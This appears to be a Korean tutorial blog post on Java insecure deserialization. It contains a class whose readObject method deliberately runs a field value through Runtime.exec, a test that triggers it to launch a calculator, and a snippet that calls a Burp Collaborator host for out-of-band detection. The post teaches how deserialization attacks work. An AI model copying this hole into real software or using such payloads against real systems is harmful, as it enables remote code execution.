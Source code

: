 

# 개요
Java 에서 안전하지 않은 역직렬화 취약점 예제를 쉽게 설명한 블로그가 있었다. 요점을 정리해본다. 

# 상세
다음과 같은 코드가 있다고 하자. 


## User코드 
- User 클래스는 readObject 함수를 재정의했다. 이 함수는 name 값을 실행하는 코드가 왜인지(?) 들어가 있다! 취약하다. 

```java

import java.io.IOException;
import java.io.Serializable;


public class User implements Serializable{

	private String name;
	private String password;
	private String email;
	private int age;
	
	public User(String name, String password, String email, int age){
		this.name = name;
		this.password = password;
		this.email = email;
		this.age = age;
	}
	
	public String toString(){
		return "(" + name +", " + password + ", " + email + ", " + age + ")"; 
	}
	
	public String getName() {
		return name;
	}


	public void setName(String name) {
		this.name = name;
	}


	public String getPassword() {
		return password;
	}
	public void setPassword(String password) {
		this.password = password;
	}
	public String getEmail() {
		return email;
	}
	public void setEmail(String email) {
		this.email = email;
	}
	public int getAge() {
		return age;
	}
	public void setAge(int age) {
		this.age = age;
	}
	
	private void readObject(java.io.ObjectInputStream stream) throws IOException, ClassNotFoundException {
		stream.defaultReadObject();
		Runtime.getRuntime().exec(this.name);
	}

}
```

## User 역직렬화 코드
User를 역직렬화하는 코드다. User의 name에 calc라는 값을 저장한 후에 역직렬화를 시도하면 어떻게 될까? 

```java


import java.io.BufferedInputStream;
import java.io.BufferedOutputStream;
import java.io.FileInputStream;
import java.io.FileOutputStream;
import java.io.ObjectInputStream;
import java.io.ObjectOutputStream;
import java.util.ArrayList;
import java.util.List;


public class UserDeserTest {

	private static final String path = "user.ser"; //프로젝트 루트에 저장됨. 
	
	public static void serialize(List<User> users){
		try{
			FileOutputStream fos = new FileOutputStream(path);
			BufferedOutputStream bos = new BufferedOutputStream(fos);
			ObjectOutputStream out = new ObjectOutputStream(bos);
			
			for(User user: users) {
				out.writeObject(user);
			}
			
			out.writeObject(users);
			out.close();
			System.out.println("직렬화 완료");
		}catch(Exception e){
			e.printStackTrace();
		}
	}
	
	public static void deserialize(){
		try {
			FileInputStream fis = new FileInputStream(path);
			BufferedInputStream bis = new BufferedInputStream(fis);
			ObjectInputStream in = new ObjectInputStream(bis);
			
			User u1 = (User) in.readObject();
			User u2 = (User) in.readObject();
			ArrayList list = (ArrayList) in.readObject();
			
			System.out.println(u1.toString());
			System.out.println(u2.toString());
			System.out.println("count : " + list.size());
			System.out.println(list.toString());
			System.out.println("역직렬화완료");
			in.close();
		} catch (Exception e) {
			e.printStackTrace();
		}
	}
	
	public static void main(String[] args) {
		User u1 = new User("calc", "1234", "ldd@naver.com", 30);
		User u2 = new User("User2", "5678", "teser@gmail.com", 25);
		ArrayList list =new ArrayList<>();
		list.add(u1);
		list.add(u2);
		
		serialize(list);
		deserialize();
	}
	
	
}
```

## 실행결과
readObject가 역직렬화과정에서 자동으로 호출되어(매직메서드) 계산기가 실행된다. 아주 단순화한 것이지만 역직렬화과정에서 자동으로 실행되는 매직메서드를 공략하면 공격이 가능하다는 것을 느낄 수 있다. 

![](/images/java-deserial-result-calc.png)


# 참고
## 경로가 다른 클래스를 역직렬화시킬 수 있을까?
내용이 동일한 클래스라도 경로가 다르면 역직렬화할 수 없다. 역직렬화하려고 하면 다음과 같은 에러가 발생한다. 

```java
java.lang.ClassCastException: class evil.User cannot be cast to class User (evil.User and User are in unnamed module of loader 'app')
	at UserDeserTest.serialize(UserDeserTest.java:23)
	at UserDeserTest.main(UserDeserTest.java:63)
java.io.EOFException
	at java.base/java.io.ObjectInputStream$PeekInputStream.readFully(ObjectInputStream.java:2926)
	at java.base/java.io.ObjectInputStream$BlockDataInputStream.readShort(ObjectInputStream.java:3421)
	at java.base/java.io.ObjectInputStream.readStreamHeader(ObjectInputStream.java:959)
	at java.base/java.io.ObjectInputStream.<init>(ObjectInputStream.java:397)
	at UserDeserTest.deserialize(UserDeserTest.java:39)
	at UserDeserTest.main(UserDeserTest.java:64)

```

## OAST 체크를 하고 싶은 경우
다음 코드를 삽입해서 Burp의 Collaborator서버와 통신시킬 수 있다. 

```java
		String url = "https://2svr1jmg0fvhi8ei4e0glnvcy34uskg9.oastify.com";
		var client = HttpClient.newHttpClient(); //java 11
		var request = HttpRequest.newBuilder(URI.create(url))
				.GET()
				.build(); 
		HttpResponse<String> res = client.send(request, HttpResponse.BodyHandlers.ofString());
		// System.out.println(res);
	}
```


# 참고
- https://medium.com/@dub-flow/deserialization-what-the-heck-actually-is-a-gadget-chain-1ea35e32df69